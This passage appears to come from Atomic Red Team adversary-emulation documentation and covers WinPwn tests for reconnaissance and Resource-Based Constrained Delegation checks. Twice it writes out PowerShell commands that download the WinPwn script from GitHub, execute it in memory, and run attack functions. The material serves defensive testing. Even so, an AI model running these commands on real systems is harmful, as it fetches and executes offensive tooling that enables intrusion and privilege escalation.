 



#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
Morerecon -noninteractive -consoleoutput
```






<br/>
<br/>

## Atomic Test #20 - WinPwn - RBCD-Check
Search for Resource-Based Constrained Delegation attack paths using RBCD-Check function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** dec6a0d8-bcaf-4c22-9d48-2aee59fb692b






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
RBCD-Check -consoleoutput -noninteractive
```






<br/>
<br/>

## Atomic Test #21 - WinPwn - PowerSharpPack - Watson searching for missing windows patches
PowerSharpPack - Watson searching for missing windows patches  technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 07b18a66-6304-47d2-bad0-ef421eb2e107




